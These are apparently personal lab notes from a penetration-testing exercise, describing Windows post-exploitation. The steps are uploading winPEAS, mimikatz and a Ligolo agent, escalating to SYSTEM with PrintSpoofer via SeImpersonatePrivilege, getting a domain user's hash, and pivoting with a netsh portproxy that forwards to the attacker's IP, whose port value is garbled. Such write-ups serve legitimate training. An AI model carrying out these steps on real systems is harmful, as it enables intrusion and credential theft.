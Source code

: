 - After getting a secure shell, I then uploaded my scripts to further enumerate such as winPEASany, nc.exe, agent.exe to secure my ligolo connection, mimikatz.exe
- winPEAS showed me there was an seImpersonatePrivilege which lead to me to PrintSpoofer64.exe, which allows me to become a system shell.
- Uploaded PrintSpoofer64.exe, then looked at my ipconfig table to see if it was connected to MS02.
- PowerView can help too to enumerate Domain Users because we had a user, Mary Williams but she was not a part of the DC, we got a hash for celia.almeda who was authenticated to the DC
- On Ligolo Proxy, I added the subnet that MS02 was a part of
- ![[Pasted image 20230821141230.png]]
- I set up a listener agent that would catch anything listening on 0.0.0.0 on port 4444 to then forward to my local interface at 127.0.0.1 on port 4444
- I also created a port proxy as well just in case, may go back over again to verify this is needed or not.
- netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=4.4.4.4 connectaddress=192.168.45.241(myIP) connectport=4444
- netsh interface portproxy show v4tov4 to verify syntax worked
- ![[Pasted image 20230821145553.png]]